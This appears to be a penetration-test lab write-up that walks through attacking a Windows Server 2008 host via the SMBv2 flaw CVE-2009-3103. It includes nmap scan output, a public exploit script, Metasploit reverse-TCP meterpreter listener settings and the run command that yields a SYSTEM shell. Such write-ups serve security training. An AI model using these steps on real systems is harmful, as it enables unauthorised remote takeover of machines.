


IP:  192.168.188.40

## Recon

Ports open:

```
PORT      STATE SERVICE            VERSION
53/tcp    open  domain             Microsoft DNS 6.0.6001 (17714650) (Windows Server 2008 SP1)
135/tcp   open  msrpc              Microsoft Windows RPC
139/tcp   open  netbios-ssn        Microsoft Windows netbios-ssn
445/tcp   open  microsoft-ds       Microsoft Windows Server 2008 R2 microsoft-ds (workgroup: WORKGROUP)
3389/tcp  open  ssl/ms-wbt-server?
5357/tcp  open  http               Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
49152/tcp open  msrpc              Microsoft Windows RPC
49153/tcp open  msrpc              Microsoft Windows RPC
49154/tcp open  msrpc              Microsoft Windows RPC
49155/tcp open  msrpc              Microsoft Windows RPC
49156/tcp open  msrpc              Microsoft Windows RPC
49157/tcp open  msrpc              Microsoft Windows RPC
49158/tcp open  msrpc              Microsoft Windows RPC
```


Further into nmap scanning, I utilized nmap scripts to identify vulnerable endpoints on the server

```
nmap -Pn --script smb-vuln* -p 139,445 192.168.188.40
```

SMB service on this server is vulnerable to `CVE-2009-3103`

```
Host script results:
|_smb-vuln-ms10-054: false
|_samba-vuln-cve-2012-1182: Could not negotiate a connection:SMB: Failed to receive bytes: TIMEOUT
|_smb-vuln-ms10-061: Could not negotiate a connection:SMB: Failed to receive bytes: TIMEOUT
| smb-vuln-cve2009-3103: 
|   VULNERABLE:
|   SMBv2 exploit (CVE-2009-3103, Microsoft Security Advisory 975497)
|     State: VULNERABLE
|     IDs:  CVE:CVE-2009-3103
|           Array index error in the SMBv2 protocol implementation in srv2.sys in Microsoft Windows Vista Gold, SP1, and SP2,
|           Windows Server 2008 Gold and SP2, and Windows 7 RC allows remote attackers to execute arbitrary code or cause a
|           denial of service (system crash) via an & (ampersand) character in a Process ID High header field in a NEGOTIATE
|           PROTOCOL REQUEST packet, which triggers an attempted dereference of an out-of-bounds memory location,
|           aka "SMBv2 Negotiation Vulnerability."
|           
|     Disclosure date: 2009-09-08
|     References:
|       https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2009-3103
|_      http://www.cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2009-3103
```

This CVE represents a SMB Code Execution vulnerability. I will be using a python script created by Sic4io

`https://github.com/Sic4rio/CVE-2009-3103---srv2.sys-SMB-Code-Execution-Python-MS09-050-`

I grab the raw version of the script and generate the necessary payload to inject



Once shellcode is replaced in the script, we can start up Metasploit and set up our listener

1. Start up Metasploit with `msfconsole` command
2. Use the multi handler exploit module: msf6 > `use exploit/multi/handler`
3. Set the correct payload used when generating the shellcode with msfvenom: `set payload windows/meterpreter/reverse_tcp`
4. Enter `options` and begin to edit all necessary fields:

```
# Use the same information given to msfvenom when we generated the shellcode
# Edit local IP to listen on
set lhost 192.168.45.245

# Edit local port to listen on
set lport 443

# Edit exit technique
set exitfunc thread
```

5. Run the listener: `run`

We now run the script

`python MS09-050.py 192.168.188.40`

Metasploit picks up the connection and gets us a meterpreter session



This vulnerability gives us NT Auth/System immediately so no privesc is necessary

---
# References

[CVE-2009-3103](https://github.com/Sic4rio/CVE-2009-3103---srv2.sys-SMB-Code-Execution-Python-MS09-050-)
